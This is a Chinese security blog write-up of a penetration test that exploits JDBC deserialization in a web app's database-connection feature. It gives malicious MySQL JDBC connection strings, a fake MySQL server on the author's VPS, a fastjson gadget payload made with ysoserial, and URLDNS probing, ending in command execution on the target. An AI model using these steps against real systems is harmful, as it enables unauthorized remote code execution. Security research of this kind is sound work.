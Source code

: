 #  一次JDBC反序列化漏洞   
 嗨嗨安全   2025-02-10 03:17  
  
在一次测试中遇到了数据库连接功能，这种功能点一般会存在jdbc反序列化漏洞。  
  
特征点：  
  
这种数据库连接点一般会存在jdbc反序列化漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRImMNCIOvuN6toPOus15qZcKgicIdPB82jSCtDkJf9nBM9zS51xnkLLWA/640?wx_fmt=png&from=appmsg "")  
  
  
打法：  
  
先试试打h2不出网利用链。该利用链需要对方服务器导入了h2依赖包才能打。执行ping dnslog命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRICkoTDFUUg0wzvgGicLQEh7xXWs2qwD4cAicIGeKYxbAvza6REwyQGQFw/640?wx_fmt=png&from=appmsg "")  
  
然后测试连接，发送请求，看起来并没有收到dnslog请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI2kvjykt1snpHe4ahPv74x72sZaFk6e3C0PSRibBUyGiaichjBFZta6Ggw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcdj2u45M3M5rLbecDhVS3aBnhzCCD7h9lpG8JUE6TJiaphAPlyFQnPw/640?wx_fmt=png&from=appmsg "")  
  
  
那就换着打常规的出网利用链。需要用到这个工具。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIpfxaePTbtSs7Gl6CenZJSztwIH0OeAgJUzuE8hMeCGs9Ficp4hrMwvg/640?wx_fmt=png&from=appmsg "")  
  
下载地址：https://github.com/4ra1n/mysql-fake-server/  
  
打个dnslog链，探测是否存在反序列化漏洞。  
  
  
先在自己的vps起一个服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRItiaQ7xgZJ4Pjs127z0Z3bl3JVxVl059mcBQ6pRhoqGra97sCErb6wsw/640?wx_fmt=png&from=appmsg "")  
  
在url处写入(目标服务器JDBC Version6.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
（目标服务器JDBC Version8.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
  
用户名处写入要打的urldns地址，密码可以随便写  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI5vRpYsFqyIzViahbGMkxzApabUHf8mZdtXFEUZiaOkZqeu9HMjsZ2yUQ/640?wx_fmt=png&from=appmsg "")  
  
VPS成功收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIybrzZYWfxZl5oJtXnHLOzF4hgRO8gqt6wSt2oiaN651eLia6lQ8Ze1KA/640?wx_fmt=png&from=appmsg "")  
  
dnslog收到回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI8Yv1Uc94icicNltU9E8OLuua2GTejf6lIw8mVLEzLpJLLu6YaJA13xpA/640?wx_fmt=png&from=appmsg "")  
  
接下来可以试试打可以执行命令的链，例如cc链，cb链等。  
  
但是试了几个下来都没有成功执行命令，就是说目标服务器可能没有导入对应的依赖。（过程省略）  
  
  
刚好bp插件帮我扫到了druid未授权漏洞，可以通过druid未授权看看服务器里的组件有什么，就可以判断打什么链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIWNQtd992s7gMHGZq1bA9YgBd7khPMCftFBOklib04Pj1axNUU6jgw6g/640?wx_fmt=png&from=appmsg "")  
  
  
服务器导入的是commons-collections-3.2.2.jar版本，相较于之前的版本增加了一个安全检查，所以没办法直接打cc链。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIOWubux9cVJrTJiaDKzV5wsG7zCAyJMBBlXUMibBBpEEJDvPb4KsbxARg/640?wx_fmt=png&from=appmsg "")  
  
目标服务器还有c3p0，但是这个链不太好打jdbc反序列化，需要的前置条件比较多。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIUa21oTY519LXLk3y2c4zpPibibcrxKDuJKgD0KA43B2Oh1AOj9lZUWgg/640?wx_fmt=png&from=appmsg "")  
  
又发现了目标服务器使用了fastjson，看来可以直接打fastjson链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIz03uUSIdsffJjcxednO7zHzp3cacZliadTsbng47p2yViaI4qqjQdD4g/640?wx_fmt=png&from=appmsg "")  
  
  
使用工具生成fastjson链，执行ping命令  
  
https://github.com/Lotus6/ysoserial  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIiaicQd4x9MZW5vO4BSMeMjOYDrbxF8SHrBEIExMgdD6ficmFaT8yWIxibA/640?wx_fmt=png&from=appmsg "")  
  
  
将base64编码的payload在vps上，这里我放到了test文件里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIV1MW1kTtPsicTp04W180ysZrB7jqUxrZYYUnYicczcFWcdw1npRL7fvQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过命令再次启动服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIwJjpB4GgSSY1PlW7WsiaqFxNEicjQaIqcgYMrSq8twAKFoWZ4tE0qleQ/640?wx_fmt=png&from=appmsg "")  
  
再次创建数据库连接，将用户名处改为deser_CUSTOM  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIYrcyLufCxDZXX5cdicj8qDzJKREz8RK0DVsPYj3HUeco0Q9NFwbafHg/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行ping命令，拿下。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcwrGsmEwrQzyDLKwnF1VgIpNweljLvPRkic9XRiaDd4wPdr8hvV7Q2MA/640?wx_fmt=png&from=appmsg "")  
  
  
补充：  
  
如果目标没有druid未授权，那么怎么知道目标服务器有什么链可以打呢？  
  
可以通过urldns链判断目标有什么利用链，如果存在某个指定的类，就进行dnslog请求，从而判断服务器有什么链，具体原理这里不细讲，有兴趣的可以看这个文章了解。  
  
https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA  
  
我们可以用珂师傅的工具  
  
https://github.com/kezibei/Urldns  
  
通过该工具生成base64编码的payload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIXZblBKUWUAoTk6s3aojk6icHDeJibAzYTF6IEyffafwybTic9WWsEYUYQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIw1twj4hgTO7lho4iaQvYU7OZ9s2oHJ7mrCb9o9zMx3UqpCLia9j42cKA/640?wx_fmt=png&from=appmsg "")  
  
和刚才的步骤相同，放到vps上面，过程省略。成功把目标服务器信息回显出来。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIsFaEDIAqtEaibPCfv6ZicibHq0PpGTic6QQuduibAF7fuUz9lwa6FE5mPBw/640?wx_fmt=png&from=appmsg "")  
  
  
